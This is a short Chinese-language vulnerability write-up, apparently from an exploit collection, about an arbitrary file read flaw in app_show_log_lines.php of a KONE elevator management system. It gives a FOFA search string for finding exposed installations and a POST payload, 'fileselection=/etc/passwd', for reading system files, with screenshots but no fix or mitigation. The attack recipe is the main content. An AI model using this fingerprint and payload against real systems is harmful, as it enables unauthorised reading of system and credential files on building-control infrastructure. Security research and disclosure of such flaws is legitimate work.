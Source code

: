 # KONE 通力电梯管理系统 app_show_log_lines.php 任意文件读取漏洞

## 漏洞描述

KONE 通力电梯 app_show_log_lines.php文件过滤不足导致任意文件读取漏洞

## 漏洞影响

```
KONE 通力电梯管理系统
```

## FOFA

```
"KONE Configuration management"
```

## 漏洞复现

主页面

![image-20220519184439370](./images/202205191844461.png)

发送POST请求包

```
fileselection=/etc/passwd
```

![image-20220519184600379](./images/202205191846469.png)